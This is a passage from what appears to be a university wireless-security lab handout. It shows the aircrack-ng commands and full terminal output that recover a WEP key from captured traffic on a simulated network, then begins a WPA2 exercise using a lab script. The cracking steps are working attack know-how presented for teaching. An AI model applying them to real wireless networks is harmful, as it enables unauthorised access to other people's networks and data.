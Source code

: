 - Probes: Then ESSIDs probed by the client.

To perform the actual crack, you can use the following command:

```
aircrack-ng -b 02:00:00:00:03:00 iv_collision_attack
root@wifi-virtualbox:~/Desktop# aircrack-ng -b  02:00:00:00:03:00 iv_collision_attack-01.cap
Reading packets, please wait...
Opening iv_collision_attack-01.cap
Read 608706 packets.

1 potential targets

Attack will be restarted every 5000 captured ivs.
Starting PTW attack with 608631 ivs.
                         KEY FOUND! [ AB:CD:EA:BC:DE ] 
        Decrypted correctly: 100%
```
```
root@wifi-virtualbox:~/Desktop# aircrack-ng -debug -b  02:00:00:00:03:00 iv_collision_attack-01.cap
Reading packets, please wait...
Opening iv_collision_attack-01.cap
Read 608706 packets.

1 potential targets

Aircrack-ng 1.6 

Tested 1 keys (got 608631 IVs)
    KB    depth   byte(vote)
    0    0/  1   AB(1436) A9(  65) 5C(  55) 3C(  45) 9A(  40) 
    1    0/  1   CD( 579) 0C(  46) FE(  45) BC(  33) 14(  23) 
    2    0/  1   EA(  71) 2C(  30) 3C(  16) 05(  14) B1(   8) 
    3    0/  2   BC( 118) 3C(  60) F2(  18) 4B(  16) 9F(  16) 

KEY FOUND! [ AB:CD:EA:BC:DE ] 
	Decrypted correctly: 100%   



```
and check if you have collected a sufficient amount of packets.

https://en.wikipedia.org/wiki/Fluhrer,_Mantin_and_Shamir_attack

### 2.6 WPA2 connections

Now it is time to create a WPA connection and examine it. To do so, in the support material you can
find a python script that can create a suitable network topology. Extractauthentication 3 wpa.pyfrom
CYBlab03support.zipand execute the script with the following command:

```
sudo -E python authentication_3_wpa.py
```
This command will create a network topology similar with the one in the previous exercise, which is composed
of three stations,sta1,sta2,sta3andAP1, but in this casesta3is not connected to the AP. For the three
stations, 3 terminal windows are opened, as shown in Fig. 6.

